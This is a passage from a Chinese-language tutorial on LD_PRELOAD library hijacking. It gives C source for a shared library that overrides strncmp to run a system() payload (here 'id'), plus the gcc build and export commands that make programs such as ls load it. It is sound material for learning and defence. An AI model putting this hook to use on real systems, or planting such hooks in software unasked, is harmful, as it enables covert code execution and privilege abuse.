 ![image.png](./LD_PRELOAD深入浅出.assets/2023_06_06_10_11_58_fRmVXg5D.png)

如上图所示可以看到很多库函数，我们随便选择一个合适的进行重写即可，这里我选择的是 strncmp：

```c
// hook_strncmp.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
```shell
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```
然后通过环境变量 LD_PRELOAD 来设置 hook_strncmp.so 能被其他调用它的程序优先加载：
```shell
export LD_PRELOAD=$PWD/hook_strncmp.so
```
最后执行`ls`发现会优先执行`hook_strncmp.so`库中的strncmp函数 ，这时就会调用`system("id");`方法，此时成功劫持了 strncmp 函数。
